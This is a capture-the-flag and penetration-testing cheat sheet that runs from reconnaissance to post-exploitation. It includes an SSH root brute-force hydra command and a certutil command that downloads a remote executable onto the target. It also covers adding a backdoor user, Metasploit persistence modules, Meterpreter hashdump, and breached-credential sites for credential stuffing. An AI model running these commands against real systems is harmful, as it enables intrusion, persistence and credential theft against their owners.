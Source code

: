 # CTFdeets

## General penetration steps

### Information Gathering - Identifying targets

Email addresses

* https://hunter.io to find email addresses and email patterns.
* Gather breached credentials with `breach-parse`
  * Consider other breached data sources: 
    * https://gist.github.com/alfredgamulo/6259986662e840da3409d1ff8c3362e7
    * https://digitalforensicstips.com/2019/11/using-bulk-extractor-for-quick-osint-wins/
    * https://pwnedlist.com
    * https://snusbase.com/
    * https://www.dehashed.com/
    * https://bit.ly/deepwebz

Subdomains

* `theharvester` is a tool in kali that can find emails, subdomains, IP addresses
* `sublist3r` can enumerate website subdomains
  * `apt install sublist3r`
* https://crt.sh uses certificates to enumerate subdomains
* `amass` yet another subdomain lister

After finding subdomains, `tomnomnom httpprobe` can take a list and show what sites are running.

Find what a website is built with:
* https://builtwith.com
* `wappalyzer` browser plugin
* `whatweb` yet another website technology enumerator

Intercept web traffic using:
* `Burp Suite`
* `Foxy Proxy`

Don't forget Google dorking or social media sites.

### Scanning & Enumeration

Machines and Ports

* `netdiscover` to find machines
* `nmap -T4 -p- -A` to find open ports
* `nmap -sU -T4 -p <host>`

Load up IP addresses and look for default or error pages

* `nikto`

Default pages, error pages, or information about the underlying architecture can be filed as **information disclosure**

Tools if `smb` is discovered after `nmap` scan:
* `msfconsole`
  * `search smb` - try for example: `use auxiliar/scanner/smb/smb_version`
* `smbclient` try to connect to it and try the individual sharenames in the server path. `smbclient -L \\\\10.10.10.4\\$ADMIN` leading slashes escape in linux.

Search for exploits on the services/ports and versions that were found:
* https://www.exploit-db.com/
* https://www.rapid7.com/db/

Other scanning tools:
* `masscan -p1-65535 --rate 1000 <ip addr>` this tool scans the whole internet, make sure to specify ip so that you're not hitting disallowed servers
* `msf5 > search portscan` use scanning options from metasploit
* https://www.tenable.com/downloads/nessus

### Exploitation Basics

Try to obtain shell

* Reverse shells
  * most common shell exploit
* Bind shells
  * useful if need to get around LHOST NAT or firewalls
  
Know the difference between `staged` and `non-staged` payloads. There can be identical attack patterns but the staging of the payload causes one way to work and one way to fail. For example, if one metasploit exploit fails to complete, try to search for other payloads. `set payload linux/x86` (then tab autocomplete to enumerate options). Try a single non-staged payload or the opposite.

Brute force tools:
* `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://<ip>:22 -t 4 -V` attempt root login on target IP
* `msf5 > use auxiliary/scanner/ssh/ssh_login`

Password Spraying & Credential Stuffing
* just try to use the creds found in information gathering to login to anything
  * `pitchfork` feature in Burp Suite `Intruder` tab

Found a default web page and want to find viable paths?
* `dirbuster`
* `gobuster`

Payloads other than msf:
* `msfvenom`
  * for example, can create a reverse shell tomcat war file

Download file to windows or linux:
* `certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe`
* `python -m pyftpdlib 21` on host to start ftp server
* `python -m SimpleHTTPServer 80` from lhost and get from rhost

Escalate user:
* `linEnum`
* `LinuxPrivChecker`

Find vulns on windows while logged in
* `rasta mouse`/`sherlock`
* GDSSecurity `Windows-Exploit-Suggester`

## Post Exploitation
Persistence scripts
* `run persistence -h`
* `exploit/windows/local/persistence`
* `exploit/windows/local/registry_persistence`

Scheduled Tasks
* `run scheduleme`
* `run schtaskabuse`

Add a User
* `net user hacker password123 /add`

## Meterpreter etc
`meterpreter > getuid`
* NT AUTHORITY\SYSTEM - highest user on windows

`meterpreter > sysinfo`
* Get information on system, see if it matches earlier scans

`meterpreter > help`
* find all the commands you can do while connected to a system with a meterpreter shell

`meterpreter > hashdump`
* try to crack the passwords, or try to "pass the hash"

Not escaleted, but got a meterpreter shell:

`meterpreter > background`

`msf5 > search suggester`

use the suggester to find possible root escalation tactics
